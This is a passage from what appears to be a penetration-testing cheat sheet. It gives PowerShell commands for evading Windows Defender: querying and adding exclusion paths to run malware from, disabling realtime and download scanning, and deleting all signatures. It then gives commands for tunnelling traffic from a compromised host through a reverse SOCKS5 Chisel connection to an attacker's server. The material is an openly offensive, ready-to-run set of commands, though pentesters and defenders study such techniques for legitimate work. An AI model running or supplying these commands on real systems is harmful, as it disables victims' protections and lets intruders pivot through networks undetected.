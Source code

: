 PowerShell

# Windows Defender evasion

_Note: All below commands require administrative privileges on the system!_

You can query Defender exclusions using PowerShell. If it returns any excluded paths, just execute your malware from there!

Get-MpPreference | select-object -ExpandProperty ExclusionPath

PowerShell

Alternatively, you could add an exclusion directory for your shady stuff. 👀

Add-MpPreference -ExclusionPath "C:\Users\Public\Downloads\SuperLegitDownloadDirectory"

PowerShell

If you’re more aggro, you can disable Defender entirely. It goes without saying that disabling AV/EDR products is never a good idea in practice, best to work around it instead. 🚩

# Disable realtime monitoring altogether  
Set-MpPreference -DisableRealtimeMonitoring $true# Only disables scanning for downloaded files or attachments  
Set-MpPreference -DisableIOAVProtection $true

PowerShell

As an alternative to disabling Defender, you can leave it enabled and just remove all virus signatures from it.

"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

PowerShell

# Chisel proxying

If you need to proxy traffic over a compromised Windows machine, [Chisel](https://github.com/jpillora/chisel) (or [SharpChisel](https://github.com/shantanu561993/SharpChisel)) is a good choice. Chisel allows port forwarding, but my favorite technique is setting up a reverse SOCKS proxy on the target machine, allowing you to tunnel any traffic over the target system.

On our attacking machine (Linux in this case), we start a Chisel server on port 80 in reverse SOCKS5 mode.

sudo ./chisel server -p 80 --reverse --socks5

Bash

Then, on our compromised target system, we connect to this server and tell it to proxy all traffic over it via the reverse SOCKS5 tunnel.

.\chisel.exe client 192.168.49.67:80 R:socks

PowerShell
